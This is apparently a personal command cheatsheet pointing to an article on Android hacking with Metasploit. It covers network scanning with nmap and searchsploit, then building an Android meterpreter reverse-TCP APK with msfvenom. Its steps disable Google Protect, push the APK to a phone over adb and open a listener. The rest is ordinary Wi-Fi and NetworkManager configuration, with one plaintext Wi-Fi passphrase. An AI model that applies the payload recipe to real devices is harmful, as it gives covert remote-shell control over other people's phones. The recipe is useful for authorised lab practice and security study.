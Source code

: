 https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

## Network Analysis  
nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
   
## MSF EZ Cheatsheet  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  

## Wi-Fi Cheatsheet

sudo iwlist wlan0 scan
wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf  
sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf  
sudo dhclient wlan0 -r  
MAC: cat /sys/class/net/wlan0/address    
  
Other:  
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe -r rtl8187  
 sudo modprobe rtl8187 ps_enable=1  
  
 - Run changes on boot  
 sudo echo 'options rtl8187 ps_enable=1' >> /etc/modprobe.d/rtl8187.conf

 - General config
sudo nano /etc/network/interfaces

 - Networks Manager
systemctl status NetworkManager  
systemctl restart NetworkManager  

 - Scan WiFi APs (saved, hotspots, all)
nmcli c
nmcli d wifi list  
sudo iwlist <WifiInterface> scanning

 - Conn (Ubuntu >=16.04)
nmcli d connect <WifiInterface>  
nmcli d disconnect <WifiInterface>
nmcli c up <SavedWiFiConn>  
nmcli c down <SavedWiFiConn>  

'''  
auto lo  
iface lo inet loopback  

auto wlan0:0  
iface wlan0:0 inet static
        address 192.168.168.3
        netmask 255.255.255.0
'''  

ERROR  
nl80211: kernel reports: Match already configured  
